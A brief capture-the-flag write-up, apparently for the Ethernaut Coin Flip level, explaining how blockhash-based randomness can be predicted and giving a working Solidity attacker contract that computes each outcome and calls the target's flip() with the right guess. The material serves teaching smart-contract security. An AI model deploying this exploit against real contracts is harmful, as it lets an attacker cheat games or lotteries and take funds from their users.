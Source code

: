 #Coin Flip

Since the logic behind the flip function is shown, we can simply calculate whether or not the coinflip would
land on true or false by following the logic in another smart contract. We make an interface for the original
contract and call true or false depending on the outcome of our simulated flip.

We have to unfortunately wait between each block mine as there is a revert function that prevents
users from flipping all coins from a single block.

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
function flip(bool \_guess) external returns (bool);
}

```solidity
contract CoinFlipHelper {
    address constant i_coinFlipAddress = 0x1D71679B7A8FDFDBF8c63FAF82e66290f13e0ee6;
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

   constructor() {
    consecutiveWins = 0;
   }
     function guess () public {
        uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == true) {
      ICoinFlip(i_coinFlipAddress).flip(true);
    } else {
        ICoinFlip(i_coinFlipAddress).flip(false);

    }
  }
}
```
